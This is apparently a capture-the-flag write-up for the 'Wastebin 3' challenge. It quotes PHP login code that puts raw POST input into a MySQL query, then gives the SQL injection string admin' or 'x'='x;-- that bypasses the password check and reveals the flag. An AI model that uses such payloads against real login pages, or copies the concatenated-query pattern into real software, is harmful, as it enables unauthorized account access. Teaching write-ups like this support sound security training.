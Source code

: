 ```yaml
---
layout: writeup
title: Wastebin 3
level: 
difficulty: 
points: 
categories: []
tags: []
flag: easyctf{54771309-67e5-4704-8743-6981a40b}
---
```

**Challenge**  
Hey I just learned this thing called MySQL! My admin account should be
safe now! Link

## Solution

We again have access to the source code

      <?php
    
            error_reporting(0);
    
            if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login!") {
                $username = $_POST['username'];
                $password = $_POST['password'];
                include("functions.php"); // connect to mysql server
    
                $query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
                $result = mysql_query($query);
                $rows = array();
                while($row = mysql_fetch_array($result)) {
                    $rows[] = $row;
                }
                if (count($rows) != 1) {
                    echo "<div class='alert alert-danger'>No accounts found with that username. <a href='index.php'>Try again?</a></div>";
                } else {
                    $row = $rows[0];
                    echo "<div class='alert alert-success'>Welcome, <code>" . $row['username'] . "</code>! ";
                    if ($row['username'] == "admin") {
                        echo "Your flag is <code>$flag</code>.";
                    }
                    echo "</div>";
                }
    
            } else {
                ?>
{: .language-php}

We see that user input is used in the query as-is, so we can enter
something like this to skip the password check and still have a valid
query string:

    username = admin' or 'x'='x;--
    password = <anything>
^

    Welcome, admin! Your flag is easyctf{54771309-67e5-4704-8743-6981a40b}.

